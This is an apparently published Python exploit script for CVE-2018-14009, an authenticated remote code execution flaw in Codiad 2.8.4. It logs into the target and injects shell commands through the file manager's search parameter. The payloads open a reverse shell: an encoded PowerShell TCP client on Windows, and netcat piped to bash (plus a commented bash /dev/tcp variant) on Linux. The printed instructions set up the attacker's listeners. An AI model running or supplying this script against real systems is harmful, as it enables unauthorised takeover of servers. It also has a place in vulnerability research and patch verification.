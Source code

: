 EXP
---

    # Exploit Title: Codiad 2.8.4 - Remote Code Execution (Authenticated)
    # Discovery by: WangYihang
    # Vendor Homepage: http://codiad.com/
    # Software Links : https://github.com/Codiad/Codiad/releases
    # Tested Version: Version: 2.8.4
    # CVE: CVE-2018-14009


    #!/usr/bin/env python
    # encoding: utf-8
    import requests
    import sys
    import json
    import base64
    session = requests.Session()
    def login(domain, username, password):
        global session
        url = domain + "/components/user/controller.php?action=authenticate"
        data = {
            "username": username,
            "password": password,
            "theme": "default",
            "language": "en"
        }
        response = session.post(url, data=data, verify=False)
        content = response.text
        print("[+] Login Content : %s" % (content))
        if 'status":"success"' in content:
            return True
    def get_write_able_path(domain):
        global session
        url = domain + "/components/project/controller.php?action=get_current"
        response = session.get(url, verify=False)
        content = response.text
        print("[+] Path Content : %s" % (content))
        json_obj = json.loads(content)
        if json_obj['status'] == "success":
            return json_obj['data']['path']
        else:
            return False
    def base64_encode_2_bytes(host, port):
        payload = '''
        $client = New-Object System.Net.Sockets.TCPClient("__HOST__",__PORT__);
        $stream = $client.GetStream();
        [byte[]]$bytes = 0..255|%{0};
        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
            $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
            $sendback = (iex $data 2>&1 | Out-String );
            $sendback2  = $sendback + "PS " + (pwd).Path + "> ";
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
            $stream.Write($sendbyte,0,$sendbyte.Length);
            $stream.Flush();
        }
        $client.Close();
        '''
        result = ""
        for i in payload.replace("__HOST__", host).replace("__PORT__", str(port)):
            result += i + "\x00"
        return base64.b64encode(result.encode()).decode().replace("\n", "")
    def build_powershell_payload(host, port):
        preffix = "powershell -ep bypass -NoLogo -NonInteractive -NoProfile -enc "
        return preffix + base64_encode_2_bytes(host, port).replace("+", "%2b")
    def exploit(domain, username, password, host, port, path, platform):
        global session
        url = domain + \
            "components/filemanager/controller.php?type=1&action=search&path=%s" % (
                path)
        if platform.lower().startswith("win"):
            # new version escapeshellarg
            # escapeshellarg on windows will quote the arg with ""
            # so we need to try twice
            payload = '||%s||' % (build_powershell_payload(host, port))
            payload = "search_string=Hacker&search_file_type=" + payload
            headers = {
                "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
            response = session.post(url, data=payload, headers=headers, verify=False)
            content = response.text
            print(content)
            # old version escapeshellarg
            payload = '%%22||%s||' % (build_powershell_payload(host, port))
            payload = "search_string=Hacker&search_file_type=" + payload
            headers = {
                "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
            response = session.post(url, data=payload, headers=headers, verify=False)
            content = response.text
            print(content)
        else:
            # payload = '''SniperOJ%22%0A%2Fbin%2Fbash+-c+'sh+-i+%3E%26%2Fdev%2Ftcp%2F''' + host + '''%2F''' + port + '''+0%3E%261'%0Agrep+%22SniperOJ'''
            payload = '"%%0Anc %s %d|/bin/bash %%23' % (host, port)
            payload = "search_string=Hacker&search_file_type=" + payload
            headers = {
                "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
            response = session.post(url, data=payload, headers=headers, verify=False)
            content = response.text
            print(content)
    def promote_yes(hint):
        print(hint)
        while True:
            ans = input("[Y/n] ").lower()
            if ans == 'n':
                return False
            elif ans == 'y':
                return True
            else:
                print("Incorrect input")
    def main():
        if len(sys.argv) != 7:
            print("Usage : ")
            print("        python %s [URL] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]" % (sys.argv[0]))
            print("        python %s [URL:PORT] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]" % (sys.argv[0]))
            print("Example : ")
            print("        python %s http://localhost/ admin admin 8.8.8.8 8888 linux" % (sys.argv[0]))
            print("        python %s http://localhost:8080/ admin admin 8.8.8.8 8888 windows" % (sys.argv[0]))
            print("Author : ")
            print("        WangYihang <wangyihanger@gmail.com>")
            exit(1)
        domain = sys.argv[1]
        username = sys.argv[2]
        password = sys.argv[3]
        host = sys.argv[4]
        port = int(sys.argv[5])
        platform = sys.argv[6]
        if platform.lower().startswith("win"):
            print("[+] Please execute the following command on your vps: ")
            print("nc -lnvp %d" % (port))
            if not promote_yes("[+] Please confirm that you have done the two command above [y/n]"):
                exit(1)
        else:
            print("[+] Please execute the following command on your vps: ")
            print("echo 'bash -c \"bash -i >/dev/tcp/%s/%d 0>&1 2>&1\"' | nc -lnvp %d" % (host, port + 1, port))
            print("nc -lnvp %d" % (port + 1))
            if not promote_yes("[+] Please confirm that you have done the two command above [y/n]"):
                exit(1)
        print("[+] Starting...")
        if not login(domain, username, password):
            print("[-] Login failed! Please check your username and password.")
            exit(2)
        print("[+] Login success!")
        print("[+] Getting writeable path...")
        path = get_write_able_path(domain)
        if path == False:
            print("[+] Get current path error!")
            exit(3)
        print("[+] Writeable Path : %s" % (path))
        print("[+] Sending payload...")
        exploit(domain, username, password, host, port, path, platform)
        print("[+] Exploit finished!")
        print("[+] Enjoy your reverse shell!")
    if __name__ == "__main__":
        main()